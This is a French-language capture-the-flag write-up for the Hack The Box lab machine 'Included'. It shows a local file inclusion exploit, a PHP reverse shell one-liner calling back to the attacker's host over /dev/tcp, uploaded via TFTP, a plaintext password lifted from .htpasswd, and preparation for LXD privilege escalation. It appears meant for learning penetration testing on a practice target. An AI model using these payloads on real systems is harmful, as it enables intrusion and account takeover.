

# Included

Included est une machine classée trés facile qui se trouve dans le tiers 2. On y voit : 

* LFI
* Tftp
* Reverse Shell
* LXD containers

**Introduction**

L'énumération est toujours la clé lorsqu'il s'agit de tests d'intrusion, - meilleure est l'énumération et plus nous avons de chances de trouver et d'exploiter des vulnérabilités. La plupart du temps, vous ne trouverez pas 'la seule' vulnérabilité qui vous accordera l'accès, mais plutôt la '**chaîne de mauvaise configuration**' qui, si elle est utilisée ensemble, vous laissera entrer. Cette machine enseigne d'autres techniques d'énumération, même sur un protocole de couche de transport différent ( [UDP](https://fr.wikipedia.org/wiki/User_Datagram_Protocol) ), et elle enseigne également que chaque testeur d'intrusion doit parfois utiliser Google pour voir comment effectuer certaines tâches.

rhost='10.129.102.34'  
lhost='10.10.15.253'

## Énumération

Nous commençons, comme toujours, par scanner la cible pour trouver des ports ouverts :

```bash
❯ nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv $rhost -oG initial.Included
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 00:47 CEST
Read data files from: /usr/bin/../share/nmap
WARNING: No targets were specified, so 0 hosts scanned.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.04 seconds
           Raw packets sent: 0 (0B) | Rcvd: 0 (0B)
❯ rhost='10.129.102.34'
❯ nmap -p- -sS --open --min-rate 5000 -n -Pn -vvv $rhost -oG initial.Included
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 00:48 CEST
Initiating SYN Stealth Scan at 00:48
Scanning 10.129.102.34 [65535 ports]
Discovered open port 80/tcp on 10.129.102.34
Completed SYN Stealth Scan at 00:48, 10.41s elapsed (65535 total ports)
Nmap scan report for 10.129.102.34
Host is up, received user-set (0.029s latency).
Scanned at 2023-05-19 00:48:28 CEST for 10s
Not shown: 65334 closed tcp ports (reset), 200 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 10.54 seconds
           Raw packets sent: 66766 (2.938MB) | Rcvd: 65365 (2.615MB)
```

```bash
❯ nmap -p80 -sVC $rhost
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 00:52 CEST
Nmap scan report for 10.129.102.34
Host is up (0.027s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.102.34/?file=home.php
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.77 seconds
```

Nous avons juste un port 80 ouvert on dirais. On va voir ce que l'on sers dessus :


Rien d’intéressant sauf le fait que l'url semble inclure des fichiers.php donc possible **LFI** (_local file incusion_)

D'ailleurs on tente de voir le .htaccess comme ceci et ça marche : 

> http://10.129.102.34/?file=.htaccess

Et cela retourne :

```bash
RewriteEngine On RewriteCond %{THE_REQUEST} ^GET.*index\.php [NC] RewriteRule (.*?)index\.php/*(.*) /$1$2 [R=301,NE,L] # #AuthType Basic #AuthUserFile /var/www/html/.htpasswd #Require valid-user 
```

Ce qui montre bien qu'il y a inclusion. 

On va tenter d'afficher **/etc/passwd** pour voir:  

* http://10.129.102.34/?file=../../../etc/passwd
* http://10.129.102.34/?file=/etc/passwd

Cela marche aussi ! On fait ctrl + u pour avoir le contenu sous forme de lignes. et on le met dans un fichier sur notre disque avec vim. 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin
```

On va filtrer un peu pour trouver des comptes. 

```bash
❯ cat passwd_file| grep nologin -v
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
lxd:x:105:65534::/var/lib/lxd/:/bin/false
pollinate:x:109:1::/var/cache/pollinate:/bin/false
mike:x:1000:1000:mike:/home/mike:/bin/bash
```

On commence a voir des users.

Vu la structure de l'url on va faire un test pour voir si le fichier home.php est la seule chose que est incluse et affichée.

Pour cela on fait ceci, puis on voit que les deux pages servent la même chose. Il n'y a pas de difference (voir le diff)

```bash
wget -qO- http://10.129.102.34:80/home.php > test.txt
wget -qO- http://10.129.102.34/index.php > test2.txt
# Puis
❯ diff test.txt test2.txt

```

Ici on aurait pu fuzz pour voir si on trouve d'autres resources.

Voyons d'abord comment cette fonctionnalité (LFI) pourrait fonctionner.

```bash
if ($_GET['file']) {
    include($_GET['file']);
} else {
    header("Location: http://$_SERVER[HTTP_HOST]/index.php?file=home.php");
}
```

Dans l'exemple ci-dessus, ce code se trouve dans index.php , il est utilisé pour charger dynamiquement d'autres pages du site Web en utilisant la variable file comme point de contrôle. Si cette variable n'a pas été spécifiée dans la requête GET, la page réécrit automatiquement l'URL (fais une redirection) et charge home.php . Si la valeur a été spécifiée, le code tente de charger une page à partir de la valeur de la variable. Voir la function [header](https://www.php.net/manual/en/function.header.php) dans le site php.

## TFTP

Revenons à la tâche à accomplir, bien qu'une inclusion de fichiers locaux soit un excellent moyen de collecter des informations et de lire des fichiers système, l'objectif de chaque testeur d'intrusion est de réaliser l'exécution de code à distance sur un système. Il existe une pléthore de façons dont un **LFI** peut se transformer en **RCE** (_Remote code execution_), depuis l'empoisonnement des journaux aux mots de passe en clair dans les fichiers de configuration et aux sauvegardes oubliées, mais dans ce cas, le fichier passwd nous a donné un _indice_ important sur la façon de procéder.

Le dernier utilisateur répertorié s'appelle **tftp** .

```tftp:x:110:113:tftp daemon,,,:/var/lib/tftpboot:/usr/sbin/nologin```

Une recherche rapide sur Google révèle que le protocole [TFTP]() (Trivial File Transfer Protocol) est un protocole simple qui fournit une fonction de transfert de fichiers de base sans authentification de l'utilisateur. TFTP est destiné aux applications qui n'ont pas besoin des interactions sophistiquées fournies par le protocole de transfert de fichiers (FTP).
Il est également révélé que TFTP utilise le protocole UDP (User Datagram Protocol) pour communiquer. Celui-ci est défini comme un protocole de transport de données léger qui fonctionne au-dessus d'IP.

```text
UDP fournit un mécanisme pour détecter les données corrompues dans les paquets, mais il ne tente pas de résoudre les autres problèmes qui surviennent avec les paquets, tels que les paquets perdus ou en désordre.
Il est implémenté dans la couche de transport du modèle OSI, connu comme un protocole rapide mais non fiable, contrairement à TCP, qui est fiable mais plus lent qu'UDP.
Tout comme TCP contient des ports ouverts pour des protocoles tels que HTTP, FTP, SSH, etc.; UDP a des ports pour des protocoles qui fonctionnent pour UDP.
```

On va faire un scan UDP mais on va le limiter aux 100 premiers ports (on triche un peu car ça met une plombe...)

```bash
❯ nmap -sU -p1-100 10.129.102.34
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-19 01:53 CEST
Nmap scan report for 10.129.102.34
Host is up (0.028s latency).
Not shown: 98 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc
69/udp open|filtered tftp

Nmap done: 1 IP address (1 host up) scanned in 106.34 seconds
```

En attendant on en profite pour installer **tftp**

```bash
sudo apt install tftp
```

Nous allons uploader un fichier reverse.php a fin d'établir une connection avec notre machine.

```bash
❯ tftp 10.129.102.34
tftp> put reverse.php 
Sent 75 bytes in 0.1 seconds
tftp> quit
```

Et on lance une écoute avec netcat : 

```bash
nc -nvlp 443
```

Voici le contenu de notre fichier uploadé :  

```bash
❯ cat reverse.php 
───────┬───────────────────────────────────────────────────────────────────────────────
       │ File: reverse.php
───────┼───────────────────────────────────────────────────────────────────────────────
   1   │ <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.253/443 0>&1'");?>
───────┴─────────────────────────────────────────────────────────────────────────────── 
```

On doit connaitre l'emplacement ou le fichier a été uploadé avant de l'executer grace au LFI.

❯ curl 'http://10.129.102.34/?file=/var/lib/tftpboot/reverse.php'

On entre en tant que www-data.

Le shell reçu n'est pas complètement interactif alors on l’améliore un peu :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

On entre avec le compte **www-data**

## Mouvement Lateral

Avec le compte www-data nous n'avons pas le droit de faire grand chose.  
On commence a énumérer, nous regardons donc dans le dossier web pour voir si on trouve des identifiants, voir mieux.

```bash
www-data@included:/var/www/html$ cat .htpasswd
cat .htpasswd
mike:Sheffield19
www-data@included:/var/www/html$ 
```

On trouve quelque chose qui ressemble a un pass avec le nom d'user déjà rencontré dans le /etc/passwd  
mike:Sheffield19

```bash
www-data@included:/var/www/html$ su mike 
su mike
Password: Sheffield19

mike@included:/var/www/html$ cd /home/mike
cd /home/mike
mike@included:~$ ls
ls
user.txt
mike@included:~$ cat user	
cat user.txt 
a56ef91d70cfbf2cdb8f45..........
```

Nous avons le premier flag.

---
&nbsp;

## Escalade de privilèges

Nous allons utiliser l'application **LXC Distribution Builder**.  

What is [LXD](https://linuxcontainers.org/lxd/introduction/)?

> LXD is a management API for dealing with LXC containers on Linux systems. It will
perform tasks for any members of the local lxd group. It does not make an effort to
match the permissions of the calling user to the function it is asked to perform.  

On cherche une vuln avec et on trouve : 

> A member of the local “lxd” group can instantly escalate the privileges to root on the
host operating system. This is irrespective of whether that user has been granted sudo
rights and does not require them to enter their password. The vulnerability exists even
with the LXD snap package.

Pour l'install de distrobuilder il faut prendre la dernière version de go ! , sinon t'as une erreur avec make.

1. Télécharger _go1.20.4.linux-amd64.tar.gz_ dans **/usr/local/go** puis :

```bash
$ rm -rf /usr/local/go && tar -C /usr/local -xzf go1.20.4.linux-amd64.tar.gz
```

2. Désinstaller la version 1.17 qui viens avec parrot et prendre la 20.


```bash
❯ sudo su
[sudo] Mot de passe de rnek0 : 
❯ rm -r /usr/lib/go-1.17
❯ ls /usr/lib/go-1.17
lsd: /usr/lib/go-1.17: No such file or directory (os error 2).
```

Ajouter a la var d'environnement.

```bash
❯ go env
zsh: command not found: go
❯ export PATH=$PATH:/usr/local/go/bin
❯ go env
GO111MODULE=""
GOARCH="amd64"
GOBIN=""
...
```

Puis pour que cela soit persistent

export PATH=$PATH:/usr/local/go/bin dans le .profile

Une fois cela fait tu peux installer distrobuilder, tu clones et tu fais un simple make dans le dossier.

```bash
git clone https://github.com/lxc/distrobuilder
cd distrobuilder
make
```

After the build is complete let's download the Alpine YAML file and build it... que estoy hasta las narizes de traducir !

CUIDADITO ! Aqui el Write-up dice que la version es 3.8 pero no esta al dia, mira en https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml en el campo **same_as** para saber cual es el numero de version.

```bash
mkdir -p $HOME/ContainerImages/alpine/
cd $HOME/ContainerImages/alpine/
wget https://raw.githubusercontent.com/lxc/lxc-ci/master/images/alpine.yaml
sudo $HOME/go/bin/distrobuilder build-lxd alpine.yaml -o image.release=3.12
```

Despues de esto tenemos dos ficheros llamados **lxd.tar.xz** y **rootfs.squashfs** que han sido creados en el folder.

Nous devrons maintenant transférer ces fichiers vers le système cible via l'utilisation d'un serveur HTTP Python.
Exécutez la commande suivante localement sur le même dossier.

```bash
python3 -m http.server 8000
```

Revenez ensuite au shell inversé sur le système cible et téléchargez les fichiers.

```bash
wget http://10.10.15.253:8000/lxd.tar.xz
wget http://10.10.15.253:8000/rootfs.squashfs
```




Après être entré en root je me suis fait éjecter juste avant de récupérer le flag ! donc il a fallu revenir refaire le mouvement lateral puis heureusement que le container était en train de tourner donc du coup je suis entré et j'ai pris le flag.

pwned : 

https://www.hackthebox.com/achievement/machine/944728/292